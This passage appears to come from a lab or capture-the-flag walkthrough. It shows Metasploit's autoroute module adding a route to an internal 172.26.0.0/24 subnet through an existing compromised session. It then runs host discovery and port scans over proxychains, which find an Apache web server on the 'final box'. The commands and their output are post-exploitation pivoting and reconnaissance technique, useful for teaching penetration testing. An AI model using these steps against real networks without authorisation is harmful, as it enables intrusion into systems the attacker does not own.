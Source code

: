 
We can add this new network to our Metasploit routing table same as last time:

```
msf6 post(multi/recon/local_exploit_suggester) > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SUBNET 172.26.0.0
SUBNET => 172.26.0.0
msf6 post(multi/manage/autoroute) > set NETMASK 24
NETMASK => 24
msf6 post(multi/manage/autoroute) > set SESSION 6
SESSION => 6
msf6 post(multi/manage/autoroute) > run

[*] Running module against 172.26.0.3
[*] Searching for subnets to autoroute.
[+] Route added to subnet 172.26.0.0/255.255.255.0 from host's routing table.
[*] Post module execution completed
msf6 post(multi/manage/autoroute) > 
```

# Final box

## Network Scan

Now we can access this network through our existing SOCKS proxy using `proxychains4` on our own machine.


We'll begin by searching for any active hosts on the network with a standard host discovery scan:

```
┌──(root㉿kali)-[/vagrant]
└─# proxychains nmap -sn -T5 172.26.0.0/24
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.14
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-21 04:48 UTC
Nmap scan report for 172.26.0.2
Host is up (0.000051s latency).
MAC Address: 02:42:AC:1A:00:02 (Unknown)
Nmap scan report for 172.26.0.3
Host is up (0.000015s latency).
MAC Address: 02:42:AC:1A:00:03 (Unknown)
Nmap scan report for 172.26.0.1
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 27.63 seconds
```

However, to speed things up this time we'll only scan the top 250 ports, and we'll use the `-T5` speed profile.
This will be particularly helpful as scanning through proxychains and hopping through several hosts can really slow down our connection:

```
┌──(root㉿kali)-[/vagrant]
└─# proxychains nmap -sTV -T5 --top-ports 250 172.26.0.2 
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.17
Starting Nmap 7.92 ( https://nmap.org ) at 2024-07-21 04:51 UTC
Nmap scan report for 172.26.0.2
Host is up (0.052s latency).
Not shown: 248 closed tcp ports (conn-refused)
PORT    STATE SERVICE  VERSION
80/tcp  open  http     Apache httpd 2.4.7 ((Ubuntu))
443/tcp open  ssl/http Apache httpd 2.4.7 ((Ubuntu))
```